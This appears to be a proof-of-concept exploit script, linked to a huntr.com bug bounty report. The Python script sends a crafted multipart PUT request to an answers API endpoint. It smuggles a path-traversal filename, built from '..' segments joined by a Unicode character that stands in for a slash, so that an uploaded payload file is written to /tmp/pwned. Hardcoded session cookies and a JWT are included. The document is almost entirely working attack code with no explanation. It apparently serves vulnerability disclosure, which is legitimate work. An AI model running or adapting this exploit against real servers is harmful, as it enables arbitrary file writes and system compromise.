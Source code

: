 https://huntr.com/bounties/92a875fe-c5b3-485c-b03f-d3185189e0b1

```python
import requests
from urllib.parse import quote

URL = "http://127.0.0.1:3000/api/answers/ad8f99b0-0c32-4c40-ba30-34af54148a0f"

cookies = {
    "JSESSIONID": "CFEF4335ED24DBD59C8F3693E6BD9FEF",
    "token":      "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjp7ImlkIjoiNjg3ZjhiYzFhM2YzMjZlMjk0Mzc5MTM1Iiwicm9sZSI6Imd1aWRlIn0sImlhdCI6MTc1MzE4OTM3MCwiZXhwIjoxNzUzMjc1NzcwfQ.RYUt6JOK3-AO_NPk2COVeT_jO_uPor1OH6shiiu3L8A"
}

with open("payload.bin", "rb") as f:
    file_content = f.read()

file_name_raw = "/tmp/pwned"
filename = "..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯" + file_name_raw.replace("/", "丯")

filename_rfc5987 = f"UTF-8''{quote(filename)}"
boundary = "----WebKitFormBoundaryWzBpweyhtRcd9i8R"
dash_boundary = f"--{boundary}"

body = bytearray()

body += (
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="text"\r\n\r\n'
    "asdfasdfasdf\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="rating"\r\n\r\n'
    "5\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    f'Content-Disposition: form-data; name="image"; filename*={filename_rfc5987}\r\n'
    "Content-Type: text/html\r\n\r\n"
).encode()
body += file_content + b"\r\n"
body += (f"{dash_boundary}--\r\n").encode()

headers = {
    "Content-Type": f"multipart/form-data; boundary={boundary}",
    "Cookie": "; ".join(f"{k}={v}" for k, v in cookies.items()),
}

resp = requests.put(URL, data=body, headers=headers, timeout=10)
print(resp.status_code, resp.text)

```
